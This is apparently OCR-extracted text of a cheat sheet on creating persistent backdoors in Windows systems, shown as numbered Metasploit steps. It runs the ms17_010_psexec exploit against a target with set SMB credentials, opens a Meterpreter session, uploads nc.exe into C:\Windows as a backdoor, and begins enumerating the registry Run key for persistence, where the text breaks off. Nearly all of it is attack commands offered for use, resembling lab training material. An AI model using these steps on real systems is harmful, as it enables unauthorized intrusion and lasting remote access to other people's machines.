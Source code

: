  # cheat sheet on creating persistent backdoors. 

1. click the Metasploit Framework icon on the desktop. In the terminal    window displayed, run the command:

> msfconsole

> press enter

> after it has created and initialized the database, you should see the  msf prompt.


2. you will use the psexec module in this case. To do this, type the fo   llowing command:

> use exploit/windows/smb/ms17_010_psexec

> press enter

3. next, set the remote host that you want to exploit. Type the following command:

> set RHOST 192.168.0.5

> press enter

4. Now set the username that you want to use to connect to the remote h   ost. Type the following command:

> set SMBUser admin

> Press Enter

5. clear the screen by pressing Ctrl+L

> After setting the username, you need to use the password for the same account. Type the following command:

> set SMBPass Passw0rd

> Press Enter.

6. Next, you will run the exploit to gain access to the remote system.    Type the following command:

> run

> press enter

7. The metepreter session with the remote system is now established

8. You will now send a backdoor to the remote system. To do this, type    the following command:

> upload /usr/share/windows-binaries/nc.exe C:\\Windows

> press enter


9. notice that the file is now uploaded to the C:\Windows directory on the remote host.


10.  Next, you need to enumerate the registry keys. Type the following      command:

> reg enumkey -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run
